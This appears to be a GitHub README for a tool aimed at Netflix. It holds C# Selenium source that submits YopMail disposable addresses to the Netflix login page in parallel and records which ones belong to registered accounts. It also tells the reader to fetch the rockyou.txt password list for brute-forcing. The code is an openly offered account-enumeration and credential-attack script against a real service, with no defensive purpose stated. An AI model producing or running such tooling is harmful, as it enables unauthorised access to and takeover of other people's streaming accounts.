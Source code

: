 # Netflix

### Download rockyou.txt file from https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt and upload in side Helper folder


Source code: Program.cs
`
using OpenQA.Selenium;
using OpenQA.Selenium.Firefox;
using System;
using System.IO;
using System.Linq;
using System.Text;
using System.Threading;

namespace NetFlix.Login
{
    class Program
    {

        private static void Main(string[] args)
        {
            File.ReadLines(Constants.InputPath, Encoding.UTF8)
            .AsParallel().WithDegreeOfParallelism(5)
            .ForAll(email => AutomateNetflixBruteForce(email));
        }

        private static void AutomateNetflixBruteForce(string email)
        {

            var generatedEmail = generateEmail(email);

            if (!File.ReadLines(Constants.CheckedEmailPath, Encoding.UTF8).Contains(generatedEmail))
            {
                try
                {
                    using (IWebDriver driver = new FirefoxDriver())
                    {
                        driver.Navigate()
                            .GoToUrl(Constants.NavigationURL);

                        driver.FindElement(By.Name(Constants.Name_Email)).SendKeys(generatedEmail + Keys.Enter);


                        ValidateResult(driver, generatedEmail);


                        CleanUpDrivers(driver);
                    }
                }
                catch (Exception ex)
                {
                    Console.WriteLine($"Exception occured email = {email}", ex);
                }
            }
        }
        private static string generateEmail(string email)
        {
            return $"{email.Trim()}{Constants.YopMailDomain}";
        }

        private static void ValidateResult(IWebDriver driver, string generatedEmail)
        {
            if (driver.Url == Constants.ValidSignInPage)
            {
                if (!File.Exists(Constants.OutputFile))
                {
                    CreateResultFile(Constants.OutputFile);
                }

                using (StreamWriter sw = File.AppendText(Constants.OutputFile))
                {
                    var emailAndDomain = generatedEmail.Split("@");
                    sw.WriteLineAsync($"{emailAndDomain[0]}\t\t{emailAndDomain[1]}\t\t{generatedEmail}");
                }

            }
            File.AppendAllTextAsync(Constants.CheckedEmailPath, generatedEmail + "\n");
        }

        private static void CleanUpDrivers(IWebDriver driver)
        {
            driver.Quit();
            driver.Dispose();
            Thread.Sleep(1000);
        }

        private static void CreateResultFile(string outputFile)
        {

            // Create a file to write to.
            using (StreamWriter sw = File.CreateText(outputFile))
            {
                sw.WriteLineAsync($"Account Details\t\tDomain\t\tEmail");
            }

        }
    }
}
`
